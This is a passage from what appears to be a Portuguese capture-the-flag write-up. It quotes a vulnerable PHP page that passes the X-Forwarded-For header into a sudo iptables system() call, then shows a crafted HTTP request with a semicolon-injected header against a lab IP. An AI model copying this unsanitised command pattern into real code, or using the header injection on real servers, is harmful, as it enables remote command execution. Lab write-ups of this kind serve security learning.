     ```
    <?php
    require('config.php');
    
    if (!($_SESSION['Authenticated'])) {
      echo "Access Denied";
      exit;
    }
    
    ?>
    <link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
    <script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
    <script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
    <!------ Include the above in your HEAD tag ---------->
    
    <div class="container">
    		<h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>
    		
    	</div>
    	<section class="bg-dark text-center p-5 mt-4">
    		<div class="container p-5">
    <?php
      if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
      } else {
        $ip = $_SERVER['REMOTE_ADDR'];
      };
      system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
    ?>
                  <h1 class="text-white">Welcome Back!</h1>
                  <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
    		</div>
    	</section>
    </div>
    ```
    
    A partir deste código sabemos que o código da firewall.php recebe um parâmetro de um get request, e o parâmetro chama se:
    
    `X_FORWARDED_FOR:` 
    
    ```
    GET /firewall.php HTTP/1.1
    Host: 10.129.96.75
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.129.96.75/challenge.php
    DNT: 1
    Connection: close
    Cookie: PHPSESSID=rkeqoah3nqahne5a8pqalgtmpq
    Upgrade-Insecure-Requests: 1
    Sec-GPC: 1
    X-FORWARDED-FOR: ;;
    ```
    
